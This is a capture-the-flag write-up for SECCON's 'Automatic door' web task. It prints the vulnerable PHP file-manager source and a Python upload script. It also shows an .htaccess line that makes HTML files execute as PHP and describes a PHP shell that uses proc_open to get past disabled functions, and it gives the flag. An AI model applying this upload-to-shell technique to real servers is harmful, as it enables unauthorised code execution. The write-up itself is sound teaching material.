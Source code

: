 # Automatic door (Web, 500p)

In the task we get the source code of a webpage we can access:

```php
 <?php
$fail = str_repeat('fail', 100);
$d = 'sandbox/FAIL_' . sha1($_SERVER['REMOTE_ADDR'] . '95aca804b832f4c329d8c0e7c789b02b') . '/';
@mkdir($d);

function read_ok($f)
{
    return strstr($f, 'FAIL_') === FALSE &&
        strstr($f, '/proc/') === FALSE &&
        strstr($f, '/dev/') === FALSE;
}

function write_ok($f)
{
    return strstr($f, '..') === FALSE && read_ok($f);
}

function GetDirectorySize($path)
{
    $bytestotal = 0;
    $path = realpath($path);
    if ($path !== false && $path != '' && file_exists($path)) {
        foreach (new RecursiveIteratorIterator(new RecursiveDirectoryIterator($path, FilesystemIterator::SKIP_DOTS)) as $object) {
            $bytestotal += $object->getSize();
        }
    }
    return $bytestotal;
}

if (isset($_GET['action'])) {
    if ($_GET['action'] == 'pwd') {
        echo $d;

        exit;
    }
    else if ($_GET['action'] == 'phpinfo') {
        phpinfo();

        exit;
    }
    else if ($_GET['action'] == 'read') {
        $f = $_GET['filename'];
        if (read_ok($f))
            echo file_get_contents($d . $f);
        else
            echo $fail;

        exit;
    } else if ($_GET['action'] == 'write') {
        $f = $_GET['filename'];
        if (write_ok($f) && strstr($f, 'ph') === FALSE && $_FILES['file']['size'] < 10000) {
            print_r($_FILES['file']);
            print_r(move_uploaded_file($_FILES['file']['tmp_name'], $d . $f));
        }
        else
            echo $fail;

        if (GetDirectorySize($d) > 10000) {
            rmdir($d);
        }

        exit;
    } else if ($_GET['action'] == 'delete') {
        $f = $_GET['filename'];
        if (write_ok($f))
            print_r(unlink($d . $f));
        else
            echo $fail;

        exit;
    }
}

highlight_file(__FILE__);
```

We can read/write files and we need to get a shell.
We can't save files with `ph` in same so no `.php` files for us.

We've made a small script to upload files:

```python
def upload_file(filename):
    with codecs.open(filename, "r") as f:
        res = requests.post(
            "http://automatic_door.pwn.seccon.jp/0b503d0caf712352fc200bc5332c4f95/?action=write&filename=" + filename,
            files={"file": f})
        print(res.text)
```

It seems we can upload a `.htaccess` file with:

```
AddType application/x-httpd-php .html .htm
```

inside and the system will execute php also in html files.
Now we can upload html file with a PHP shell, but according to phpinfo() most of shell-like functions are disabled.
Fortunately not all of them -> http://php.net/manual/en/function.proc-open.php is still available.

We run `/flag_x` as stated in the task description and we recover the flag `SECCON{f6c085facd0897b47f5f1d7687030ae7}`
